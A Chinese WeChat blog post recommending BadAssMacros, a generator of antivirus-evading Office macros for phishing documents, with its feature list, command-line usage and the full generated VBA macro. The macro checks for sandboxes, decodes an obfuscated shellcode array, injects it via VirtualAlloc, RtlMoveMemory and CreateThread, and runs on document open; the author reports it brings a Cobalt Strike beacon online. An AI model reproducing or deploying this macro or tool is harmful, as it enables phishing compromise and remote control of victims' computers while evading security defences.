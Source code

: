 ##  工具推荐：BadAssMacros免杀宏生成器

鸿鹄实验室a  [ 鸿鹄实验室 ](javascript:void\(0\);)

**鸿鹄实验室** ![]()

微信号 gh_a2210090ba3f

功能介绍 鸿鹄实验室，欢迎关注

____

__

收录于话题

    在众多的攻击方式中，钓鱼文档攻击仍然扮演者重要的地位，而随着各类安全防护设备的成熟，宏免杀一直是我们所讨论的问题，之前有MacroPack(收费版仍然好用)可以生成免杀宏文档，但特征已被标记，今天介绍的这款工具则仍然效果很好。  

    

地址如下：https://github.com/Inf0secRabbit/BadAssMacros

  

     先来看一下免杀效果：

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110832.png)

  

目前具有的功能如下：

  

  * Classic VBA shellcode injection.

  * Indirect VBA shellcode injection (using LoadLibrary).

  * Sandbox Detection.

  * VBA Purging.

  * Shellcode obfuscation.

  * Variable name Randomization.

  

这里我使用第一种方式进行注入  

  

  * 

    
    
    BadAssMacros.exe -i <path_to_raw_shellcode_file> -w <doc/excel> -p no -s classic -c <caesar_shift_value> -o <path_to_output_file>

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110833.png)

  

生成的宏代码如下：

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtrPrivate Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtrPrivate Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtrFunction stb() Dim qAW As Variant Dim GvH As LongPtr Dim DTc As Long Dim xiB As Long Dim fWB As LongPtr If Application.RecentFiles.Count < 3 ThenExit FunctionEnd IfSet objWMIService = GetObject("winmgmts:\\.\root\cimv2")Set colItems = objWMIService.ExecQuery("Select * from Win32_Processor", , 48)For Each objItem In colItemsIf objItem.NumberOfCores < 3 ThenExit FunctionEnd IfNext qAW = Array(255, 75, 134, 231, 243, 235, 203, 3, 3, 3, 68, 84, 68, 83, 85, 84, 89, 75, 52, 213, 104, 75, 142, 85, 99, 75, 142, 85, 27, 75, 142, 85, 35, 75, 142, 117, 83, 75, 18, 186, 77, 77, 80, 52, 204, 75, 52, 195, 175, 63, _100, 127, 5, 47, 35, 68, 196, 204, 16, 68, 4, 196, 229, 240, 85, 68, 84, 75, 142, 85, 35, 142, 69, 63, 75, 4, 211, 105, 132, 123, 27, 14, 5, 120, 117, 142, 131, 139, 3, 3, 3, 75, 136, 195, 119, 106, 75, 4, 211, 83, _142, 75, 27, 71, 142, 67, 35, 76, 4, 211, 230, 89, 75, 258, 204, 68, 142, 55, 139, 75, 4, 217, 80, 52, 204, 75, 52, 195, 175, 68, 196, 204, 16, 68, 4, 196, 59, 227, 120, 244, 79, 6, 79, 39, 11, 72, 60, 212, 120, 219, _91, 71, 142, 67, 39, 76, 4, 211, 105, 68, 142, 15, 75, 71, 142, 67, 31, 76, 4, 211, 68, 142, 7, 139, 75, 4, 211, 68, 91, 68, 91, 97, 92, 93, 68, 91, 68, 92, 68, 93, 75, 134, 239, 35, 68, 85, 258, 227, 91, 68, _92, 93, 75, 142, 21, 236, 82, 258, 258, 258, 96, 109, 3, 76, 193, 122, 108, 113, 108, 113, 104, 119, 3, 68, 89, 76, 140, 233, 79, 140, 244, 68, 189, 79, 122, 41, 10, 258, 216, 75, 52, 204, 75, 52, 213, 80, 52, 195, 80, 52, _204, 68, 83, 68, 83, 68, 189, 61, 89, 124, 170, 258, 216, 238, 118, 93, 75, 140, 196, 68, 187, 100, 33, 3, 3, 80, 52, 204, 68, 84, 68, 84, 109, 6, 68, 84, 68, 189, 90, 140, 162, 201, 258, 216, 238, 92, 94, 75, 140, 196, _75, 52, 213, 76, 140, 219, 80, 52, 204, 85, 107, 3, 5, 67, 135, 85, 85, 68, 189, 238, 88, 49, 62, 258, 216, 75, 140, 201, 75, 134, 198, 83, 109, 13, 98, 75, 140, 244, 75, 140, 221, 76, 202, 195, 258, 258, 258, 258, 80, 52, _204, 85, 85, 68, 189, 48, 9, 27, 126, 258, 216, 136, 195, 18, 136, 160, 4, 3, 3, 75, 258, 210, 18, 135, 143, 4, 3, 3, 238, 214, 236, 231, 4, 3, 3, 235, 165, 258, 258, 258, 50, 68, 107, 105, 81, 3, 157, 152, 102, 60, _179, 136, 116, 184, 55, 38, 239, 250, 111, 149, 90, 39, 166, 220, 17, 236, 156, 173, 190, 208, 118, 42, 257, 206, 123, 209, 43, 169, 53, 205, 216, 128, 12, 197, 242, 182, 95, 141, 121, 124, 19, 107, 29, 95, 202, 59, 153, 178, 48, 5, _145, 187, 177, 77, 21, 147, 43, 170, 168, 82, 205, 158, 16, 63, 236, 93, 13, 138, 84, 3, 88, 118, 104, 117, 48, 68, 106, 104, 113, 119, 61, 35, 80, 114, 125, 108, 111, 111, 100, 50, 55, 49, 51, 35, 43, 102, 114, 112, 115, 100, _119, 108, 101, 111, 104, 62, 35, 80, 86, 76, 72, 35, 59, 49, 51, 62, 35, 90, 108, 113, 103, 114, 122, 118, 35, 81, 87, 35, 56, 49, 52, 62, 35, 87, 117, 108, 103, 104, 113, 119, 50, 55, 49, 51, 44, 16, 13, 3, 214, 193, _208, 55, 4, 11, 192, 107, 203, 115, 147, 235, 180, 13, 143, 54, 239, 195, 106, 45, 70, 111, 186, 9, 50, 123, 33, 127, 155, 240, 94, 109, 44, 74, 215, 28, 87, 65, 234, 248, 256, 243, 98, 44, 211, 214, 183, 133, 125, 236, 179, 173, _42, 79, 178, 37, 192, 157, 121, 113, 171, 34, 186, 133, 255, 128, 215, 171, 210, 205, 146, 240, 29, 36, 48, 127, 76, 230, 26, 217, 115, 92, 25, 236, 197, 231, 257, 122, 62, 143, 244, 121, 27, 239, 38, 94, 56, 147, 243, 126, 156, 179, _56, 182, 70, 237, 65, 27, 97, 239, 200, 197, 202, 174, 144, 34, 151, 62, 49, 60, 202, 52, 98, 40, 250, 185, 239, 199, 73, 221, 9, 190, 126, 256, 79, 55, 29, 250, 163, 143, 71, 209, 165, 146, 197, 110, 170, 166, 230, 200, 159, 3, _116, 93, 9, 95, 83, 16, 158, 164, 178, 82, 59, 108, 40, 34, 85, 47, 32, 224, 108, 77, 211, 83, 65, 201, 229, 35, 220, 3, 214, 148, 211, 48, 250, 225, 80, 148, 6, 168, 36, 35, 66, 197, 200, 170, 212, 245, 149, 56, 30, 181, _21, 188, 102, 214, 68, 45, 199, 87, 53, 11, 121, 103, 133, 62, 193, 58, 25, 75, 138, 207, 190, 118, 212, 3, 68, 193, 243, 184, 165, 89, 258, 216, 75, 52, 204, 189, 3, 3, 67, 3, 68, 187, 3, 19, 3, 3, 68, 188, 67, 3, _3, 3, 68, 189, 91, 167, 86, 232, 258, 216, 75, 150, 86, 86, 75, 140, 234, 75, 140, 244, 75, 140, 221, 68, 187, 3, 35, 3, 3, 76, 140, 252, 68, 189, 21, 153, 140, 229, 258, 216, 75, 134, 199, 35, 136, 195, 119, 185, 105, 142, _10, 75, 4, 198, 136, 195, 120, 218, 91, 91, 91, 75, 8, 3, 3, 3, 3, 83, 198, 235, 162, 256, 258, 258, 52, 60, 53, 49, 52, 57, 59, 49, 52, 53, 54, 49, 52, 54, 52, 3, 84, 12, 194, 112)For i = 0 To UBound(qAW)qAW(i) = qAW(i) - 3Next iGvH = VirtualAlloc(0, UBound(qAW), &H3000, &H40)For DTc = LBound(qAW) To UBound(qAW)xiB = qAW(DTc)fWB = RtlMoveMemory(GvH + DTc, xiB, 1)Next DTcres = CreateThread(0, 0, GvH, 0, 0, 0)End FunctionSub Document_Open()stbEnd SubSub AutoOpen()stbEnd Sub

  

运行后，CS上线，有兴趣的可以自己去翻一翻源码。

  

     ▼更多精彩推荐，请关注我们▼

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110836.png)

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

工具推荐：BadAssMacros免杀宏生成器

最多200字，当前共字

__

发送中

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

